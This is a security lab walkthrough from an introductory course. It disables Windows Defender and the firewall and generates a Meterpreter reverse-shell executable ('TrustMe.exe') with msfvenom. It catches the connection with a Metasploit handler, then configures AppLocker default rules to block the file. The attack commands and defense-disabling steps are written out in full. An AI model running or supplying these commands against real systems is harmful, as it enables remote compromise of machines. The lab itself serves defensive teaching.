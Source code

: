 # AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Kali** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of **Windows Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)

This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Let’s get started by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

<pre>sudo su -</pre>

Next, lets run the following command to get our IP address:

<pre>ifconfig</pre>

**Please note the IP address of Y-O-U-R Ethernet adapter.**

![](attachments/applocker_ifconfig.png)

Please note that my adapter is called **"eth0"** and my IP address is **"10.10.1.117"**

**REMEMBER - YOUR IP ADDRESS WILL LIKELY BE DIFFERENT.**

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Within the Command Prompt, please run the following command:

<pre>ipconfig</pre>

Please note your Windows IP address.

We need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

**REMEMBER - YOUR IP ADDRESS WILL LIKELY BE DIFFERENT.**

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit Handler**.  First, open a new **Kali** instance. The easiest way to do this is by clicking on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The **Metasploit Handler** successfully ran if the terminal now starts with **"msf6 >"**

Next, let's run the following:

<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

**REMEMBER - YOUR IP WILL LIKELY BE DIFFERENT!**

Go ahead and run the exploit:

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)

Let’s download the malware and run it!

Open a **Windows** command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png) 

Once the prompt is open, let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your **Kali** terminal, you should now have a **metasploit** session!

![](attachments/meterpretersession.png)

Let’s stop this from happening!

To do this we will need to access the **"Local Security Policy"** on your **Windows** System.

Simply press the Windows key, (lower left hand of your keyboard, looks like a Windows Logo), then type **"Local Security"**.  It should bring up a menu like the one below, please select **"Local Security Policy"**.

![](attachments/localsecuritypolicy.png)

We will need to configure **AppLocker**.  To do this, please go to Security Settings > Application Control Policies > AppLocker.

![](attachments/localsecpolicywindow.png)

Scroll down in the right hand pane. You will see there are **"0 Rules enforced"** for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to break a system.

![](attachments/rulesoverview.png)

Please select each of the above Rule groups, **"Executable, Windows Installer, Script, and Packaged,"** and for each one, right click in the area that says **“There are no items to show in this view.”** and then select **“Create Default Rules”**.

![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 

![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

We now need to enforce the rules:

To do this you will need to select **AppLocker** on the far left pane.  You will need to select **"Configure rule enforcement"**.  This will open a pop-up. Check the **"Configured"** box for each set of rules.  

![](attachments/ruleenforcement.png)

We will need to start the **"Application Identity service"**.  This is done through pressing the Windows key and typing **"Services"**.  

![](attachments/services.png)

This will bring up the **Services App**.  Double-click **“Application Identity”**.

![](attachments/applicationidentity.png)

Once the **"Application Identity Properties"** dialog is open, please press the **Start** button.  This will start the service.

![](attachments/startservice.png)

Open a command prompt and run **"gpupdate"** to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

We are now going to try to run **"TrustMe.exe"** as another user on the system. 

Run the following commands:

<pre>cd /IntroLabs</pre>

<pre>runas /user:whitelist "nc"</pre>

The password is **adhd**

![](attachments/runas.png)

As you can see, an error was generated, meaning that we were successful!

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
